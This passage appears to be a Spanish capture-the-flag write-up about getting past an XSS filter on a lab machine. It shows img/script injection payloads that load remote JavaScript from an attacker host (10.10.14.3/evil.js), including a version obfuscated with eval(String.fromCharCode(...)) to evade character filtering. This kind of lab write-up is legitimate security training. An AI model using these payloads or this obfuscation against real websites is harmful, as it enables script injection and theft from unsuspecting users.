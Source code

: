 Observamos que se nos están bloqueando nuevamente los símbolos. Podemos pensar que esto sucede al haber agregado **`document.location`** por lo que modificamos el payload para poder evadir estos filtros. Para este intento reemplazamos **`document.location`** por **`document.write`** de la siguiente forma:     
```bash
<img src="test><script>document.write('<script src="http://10.10.14.3/evil.js"></script>')</script>">
```
![lrgqry2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cd43ba2d17b810abfd8473e194c056226851d4ae/_includes/CTFIMG/Holiday/querylg2.png)

Nos fijamos que al inicio ya no quita los símbolos pero si nos quita un espacio en la sección interna de **`document.write`** en especifico en **`script src`** lo cual deja como **`scriptsrc`** y luego elimina parte del contenido para volver a filtrar los símbolos. Podemos intentar utilizar funciones como **`String.fromCharCode()`** para realizar la evasión del filtro de caracteres.

En JavaScript, la función **`String.fromCharCode()`** se utiliza para crear una cadena de caracteres a partir de los valores Unicode especificados. Esta función toma uno o más argumentos numéricos y devuelve una cadena que contiene los caracteres correspondientes a esos valores Unicode.

La función **`String.fromCharCode()`** se llama en el contexto de la clase **`String`**. Se utiliza de la siguiente manera:   
```jsx
String.fromCharCode(valor1, valor2, ..., valorN);
```

Aquí, **`valor1`**, **`valor2`**, ..., **`valorN`** son los valores numéricos de los puntos de código Unicode que se desean convertir en caracteres.
```jsx
String.fromCharCode(65);
Output: "A"
```
En este ejemplo, el valor **`65`** se pasa como argumento a **`String.fromCharCode()`**, lo que devuelve la cadena **`"A"`**, que es el carácter correspondiente al código Unicode **`65`**.
Para esto utilizare la siguiente herramienta para generar un payload de este tipo de manera más eficiente:     
![sfcc](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cd43ba2d17b810abfd8473e194c056226851d4ae/_includes/CTFIMG/Holiday/sfccgen.png)

Copiamos el payload resultante y lo fusionamos con el payload anterior de la siguiente forma:    
```jsx
<img src="test><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,47,101,118,105,108,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">
```
